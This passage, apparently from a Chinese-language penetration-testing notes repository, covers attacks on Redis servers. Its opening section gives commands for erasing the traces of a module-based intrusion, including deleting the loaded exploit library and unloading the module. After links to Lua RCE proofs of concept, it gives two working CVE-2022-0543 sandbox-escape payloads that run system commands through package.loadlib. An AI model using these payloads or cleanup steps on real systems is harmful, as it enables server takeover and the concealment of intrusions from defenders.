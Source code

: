 - 痕迹清除

    在攻击之前将数据库原本的配置信息进行备份，攻击完成后，清除痕迹，恢复目录和数据库文件，同时卸载，删除模块
    ```bash
    CONFIG get *    # 获取所有的配置
    CONFIG get dir   # 获取 快照文件 保存的 位置
    CONFIG get dbfilename   # 获取 快照文件 的文件名
    ```
    ```bash
    #切断主从，关闭复制功能
    slaveof no one
    #恢复目录
    config set dir /data
    #通过dump.rdb文件恢复数据
    config set dbfilename dump.rdb
    #删除exp.so
    system.exec 'rm ./exp.so'
    #卸载system模块的加载
    module unload system
    ```

**Lua RCE**
- 相关文章
    - [在Redis中构建Lua虚拟机的稳定攻击路径](https://www.anquanke.com/post/id/151203/)

- POC | Payload | exp
    - [iSafeBlue/redis-rce](https://github.com/iSafeBlue/redis-rce)
    - [QAX-A-Team/redis_lua_exploit](https://github.com/QAX-A-Team/redis_lua_exploit)

**CVE-2022-0543 Redis沙盒逃逸**
- 简介

    在 Debian 上，Lua 由 Redis 动态加载，且在 Lua 解释器本身初始化时，module 和 require 以及 package 的 Lua 变量存在于上游 Lua 的全局环境中，而不是不存在于 Redis 的 Lua 上，并且前两个全局变量在上个版本中被清除修复了，而 package 并没有清除，所以导致 redis 可以加载上游的 Lua 全局变量 package 来逃逸沙箱。

- 相关文章
    - [CVE-2022-0543 Redis沙盒逃逸分析](https://mp.weixin.qq.com/s/CgFT96vFfnOF4UFGvsCOyg)

- POC | Payload | exp

    需要知道 package.loadlib 的路径
    ```
    # 利用 luaopen_os 函数
    eval 'local os_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_os"); local os = os_l(); os.execute("touch /tmp/redis_eval"); return 0' 0

    # 利用 luaopen_io 函数
    eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
    ```

---